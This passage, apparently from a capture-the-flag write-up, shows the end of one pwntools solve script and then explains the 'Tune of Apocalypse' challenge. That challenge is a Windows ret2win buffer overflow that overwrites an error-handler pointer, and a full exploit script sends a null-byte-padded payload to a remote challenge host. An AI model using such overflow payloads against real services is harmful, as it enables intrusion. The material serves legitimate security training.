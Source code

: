 ```py

    password = os.popen(f"./seed/solve {seed}").read().strip()
    print(password)

    p.sendline(password.encode())

    p.interactive()


if __name__ == "__main__":
    main()
```

---

# Tune of Apocalypse

This is a Windows ret2win challenge. Most of the challenge is actually just red
herring/serves to make the challenge more approachable but tedious. We can use
IDA to analyse the executable.

In essence, the vulnerability is a buffer overflow in static region that allows
us to modify a reference to a error handler function, and change it to the win
function. There's only 1 `strlen` check to pass which we can easily bypass
using null bytes.

```py
from pwn import *

p = remote("chals.f.cyberthon23.ctf.sg", 43010)

secret_notes = [0x106, 0x19F, 0x14A, 0x126, 0x188, 0x15D, 0x1B8, 0x1B8, 0x115, 0x115, 0x172, 0x1D2, 0x188, 0x172, 0x188]

inputs = [9, 1, 3, 5, 6, 8, 10, 10, 2, 2, 11, 7, 7, 8, 8]

# p.sendlineafter(b"Choice:", b"1")
# for i in inputs:
#     p.sendlineafter(b"Choice:", str(i).encode())
#
# p.sendlineafter(b"Choice:", b"0")

p.sendlineafter(b"Choice:", b"3")

p.sendlineafter(b"Name:", b"asdf")

payload = b"\x00"*200 + b"\xec\x1c"
p.sendlineafter(b"Description:", payload)

p.sendlineafter(b"Choice:", b"3")

p.sendlineafter(b"Name:", b"a"*30)

print(p.clean())
```

---